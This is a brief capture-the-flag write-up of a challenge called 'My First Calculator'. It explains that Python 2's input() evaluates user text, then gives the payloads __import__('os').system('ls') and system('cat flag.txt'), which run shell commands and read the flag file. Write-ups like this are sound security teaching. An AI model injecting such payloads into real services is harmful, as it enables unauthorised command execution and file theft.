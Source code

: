 # My First Calculator

By entering anything other than a number we see it's running `input()` with python2, which is basically equivalent to `eval(input())` on python3


So uhhhh just:


` __import__('os').system('ls')`


oh hey flag.txt


`__import__('os').system('cat flag.txt')`


#### Flag:flag{please_use_python3}
